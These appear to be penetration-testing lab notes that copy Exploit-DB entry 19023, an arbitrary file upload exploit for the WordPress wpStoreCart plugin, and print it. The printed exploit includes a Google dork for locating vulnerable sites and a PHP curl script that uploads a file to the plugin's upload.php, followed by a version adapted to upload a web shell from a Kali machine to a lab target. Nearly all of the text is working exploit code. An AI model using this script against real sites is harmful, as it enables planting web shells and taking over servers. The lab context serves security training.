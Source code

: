 `cp /usr/share/exploitdb/exploits/php/webapps/19023.php ./`

`cat ./19023.php`:
```php
##################################################
# Description : Wordpress Plugins - wpStoreCart Arbitrary File Upload
Vulnerability
# Version : 2.5.27 - 2.5.29
# Link : http://wordpress.org/extend/plugins/wpstorecart/
# Plugins : http://downloads.wordpress.org/plugin/wpstorecart.2.5.29.zip
# Date : 03-06-2012
# Google Dork : inurl:/wp-content/plugins/wpstorecart/
# Author : Sammy FORGIT - sam at opensyscom dot fr -
http://www.opensyscom.fr
##################################################


Exploit :

PostShell.php
<?php

$uploadfile="lo.php";
$ch =
curl_init("http://www.exemple.com/wordpress/wp-content/plugins/wpstorecart/php/upload.php"); 📌
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>"@$uploadfile")); 📌
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>

Shell Access :
http://www.exemple.com/wordpress/wp-content/uploads/wpstorecart/lo.php

lo.php
<?php
phpinfo();
?>
```

`vim ./wpstorecart_exploit.php`:
```php
<?php

$uploadfile="/home/kali/shell.php";
$ch =
curl_init("https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/wpstorecart/php/upload.php");
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>curl_file_create($uploadfile)));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>
```
